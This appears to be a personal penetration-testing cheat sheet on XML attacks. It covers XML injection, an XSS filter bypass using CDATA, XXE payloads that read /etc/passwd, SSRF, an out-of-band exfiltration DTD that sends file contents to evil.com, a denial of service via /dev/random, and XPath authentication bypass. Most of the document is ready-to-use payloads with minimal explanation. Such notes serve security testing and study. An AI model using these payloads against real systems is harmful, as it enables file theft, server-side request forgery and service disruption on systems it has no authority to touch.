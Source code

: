 # XXE and other XML vulnerabilities

## XML injection

* If our input is directly injected as a node inside an xml doc, we can :
  * Inject malformed string to break the parser
  * Modify information with well crafted payload
* If the xml is converted to html, `<![CDATA[]]>` might just be stripped, making it possible to inject other script undetected : 

```markup
<html>
    <![CDATA[<]]>script<![CDATA[>]]>alert(‘xss’)<![CDATA[<]]>/
    script<![CDATA[>]]>
</html>

<!-- to : -->
<script>alert(‘XSS’)</script>
```

## XXE - _XML External Entities_

### Inband

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE inband [
    <!ELEMENT inband ANY>
    <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<inband>&xxe;</inband>
```

### SSRF - _Server Side Request Forgery_

```markup
<?xml version="1.0"?>
<!DOCTYPE ssrf [
    <!ENTITY request SYSTEM "http://attacker.com">
]>
<ssrf>&request;</ssrf>
```

### Out-of-band

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
<!ENTITY % file_content SYSTEM "/etc/passwd">
<!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
%wrapper;
```

* If the content of the file would break the parser, use `<![CDATA[]]>` :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
<!ENTITY % file_content SYSTEM "/etc/passwd">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%start;%file_content;%end;'>">
%wrapper;
```

### DDOS

```markup
<?xml version=”1.0” encoding=”ISO-8859-1”?>
 <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM “file:///dev/random” >
]>
<foo>&xxe;</foo>
```

### Additionnal ressources

* [acunetix.com](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)  
* [mohemiv.com](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
* See also "A Billion Laugh" attack

## XPath Injection

* Same logic as SQL injection : `‘or ‘1’ = ‘1`

```text
# this :
string(//user[user/text()=’gandalf’ and pass/text()=’qwertasd123’]/account/text())

# to this :
string(//user[user/text()=’gandalf’ and pass/text()=’’ or ‘1’ = ‘1’]/account/text())
```

* I guess the same is possible with XQuery

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction [video](https://youtu.be/gjm6VHZa_8s)
* Misc research

